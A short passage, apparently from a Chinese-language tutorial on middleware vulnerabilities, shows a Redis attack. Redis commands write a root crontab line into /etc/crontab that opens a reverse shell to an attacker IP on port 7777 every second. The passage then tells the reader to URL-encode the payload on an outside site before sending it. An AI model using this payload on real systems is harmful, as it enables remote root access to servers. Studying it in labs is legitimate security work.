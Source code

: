 ![image-20241122145002542](中间件漏洞/image-20241122145002542.png)	`

```
于是将准备好的payload,进行url编码。以便发送给redis服务器。下面的payload是每一秒都会将shell反弹给攻击机
set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/192.168.15.128/7777 0>&1' \n\n\n\n" config set dir /etc/
config set dbfilename crontab
save
```

```
放到该网站进行url编码，并复制下来。
http://www.kuquidc.com/enc/urlencode.php
```

![image-20241122150953333](中间件漏洞/image-20241122150953333.png)		
